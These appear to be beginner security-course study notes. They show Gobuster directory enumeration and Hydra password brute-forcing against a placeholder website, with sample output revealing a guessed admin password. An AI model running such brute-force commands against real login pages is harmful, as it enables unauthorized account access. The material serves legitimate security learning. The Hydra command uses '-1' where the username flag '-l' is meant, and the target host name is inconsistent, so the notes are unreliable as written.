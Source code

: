 # Pre Security
## Introduction to Cyber Security
### Finding private pages on a website

Hidden pages may be attempted manually: `http://www.testwebsite.com/PAGE_TITLE` or using an automated tool: **Gobuster**

#### Using Gobuster
```bash
gobuster dir --url http://www.testwebsite.com/ -w /usr/share/wordlists/dirbuster/directory-list.txt
```

- `gobuster` - terminal command to start Gobuster
- `dir` - uses directory & file enumeration mod
- `--url http://www.testwebsite.com/` - target website
- `-w /usr/share/wordlists/dirbuster/directory-list.txt` - word list to use

Output:
```bash
/login (Status: 301) [Size: 314] [-->http://www.testwebsite.com/login/]
```

### Logging in via User & Pass

Logging in can be done manually using commonly used user/pass combinations:

*Username: admin*   
*Password: password*

...or an automated tool, **Hydra**

#### Running Hydra
```bash
hydra -1 admin -P passlist.txt www.testwebsite.com http-post-form "/login:username=^USER^&password=^PASS^:F=incorrect" -V
```

- `hydra` - command to start Hydra
- `-1 admin` - attempts to login w/ `admin` username
- `-P passlist.txt` - password list 
- `www.testwebsite.thm` - sets target website
- `http-post-form` - indicates this is an HTTP POST request form
- `"/login:username=^USER^&password=^PASS^:F=incorrect"` - specifies shape of HTTP POST request & how to check if login credentials are incorrect
- `-V` - used for verbose output

Output:
```bash
[80][http-post-form] host:www.testwebsite.com login: admin password: qwerty
```